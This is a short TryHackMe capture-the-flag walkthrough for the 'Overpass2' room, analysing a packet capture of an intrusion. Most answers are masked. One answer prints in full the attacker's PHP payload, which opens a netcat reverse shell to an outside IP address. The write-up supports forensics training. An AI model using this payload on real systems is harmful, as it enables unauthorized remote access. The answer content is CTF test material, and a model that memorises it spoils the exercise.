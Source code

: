 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```

Using the fasttrack wordlist, how many of the system passwords were crackable?

```
*    A value between 2 and 5
```





